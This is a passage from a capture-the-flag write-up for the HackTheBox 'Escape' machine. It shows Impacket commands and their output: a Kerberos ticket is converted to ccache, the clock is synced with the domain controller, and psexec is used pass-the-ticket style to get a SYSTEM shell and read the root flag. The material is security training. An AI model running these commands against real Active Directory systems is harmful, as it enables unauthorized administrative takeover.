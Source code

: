#### Step 4 - Transform the Ticket From KIRBI to CCACHE format

```bash
➜  Escape cat ticket.kirbi.b64 | base64 -d > ticket.kirbi
➜  Escape python3 ticketConverter.py ticket.kirbi ticket.ccache
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] converting kirbi to ccache...
[+] done
➜  Escape
```

#### Step 5 Run psexec

Looks like we have everything we need. Let's use Impacket `psexec.py` to get a shell as `Administrator`.

```bash
➜  Escape KRB5CCNAME=ticket.ccache python3 /usr/share/doc/python3-impacket/examples/psexec.py -k -no-pass -dc-ip 10.10.11.202 sequel.htb/administrator@dc.sequel.htb
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
```

Oops! We get a error. We don't have to worry since this was expected. Since we are dealing with active directory, time is a very sensitive issue for the DC. We have to sync our time with the DC. We can use following command to do so.

```bash
➜  Escape sudo ntpdate dc.sequel.htb
2023-06-16 19:45:29.147201 (+0200) -0.000088 +/- 0.018286 dc.sequel.htb 10.10.11.202 s1 no-leap
```

We can now re-run the `psexec.py` command and get a shell as `Administrator`.

```bash
➜  Escape KRB5CCNAME=ticket.ccache python3 /usr/share/doc/python3-impacket/examples/psexec.py -k -no-pass -dc-ip 10.10.11.202 sequel.htb/administrator@dc.sequel.htb
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Requesting shares on dc.sequel.htb.....
[*] Found writable share ADMIN$
[*] Uploading file evWzjprY.exe
[*] Opening SVCManager on dc.sequel.htb.....
[*] Creating service jRpW on dc.sequel.htb.....
[*] Starting service jRpW.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.2746]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami && type C:\Users\Administrator\Desktop\root.txt
nt authority\system
e2524c**************************

C:\Windows\system32>
```

## Final thoughts

This was a very fun box. I always like when there are Windows machines on HackTheBox, because, frankly, they are always a bit out of my comfort zone. I really hope you liked my writeup for this machine and I'll see you in the next one. Thanks!
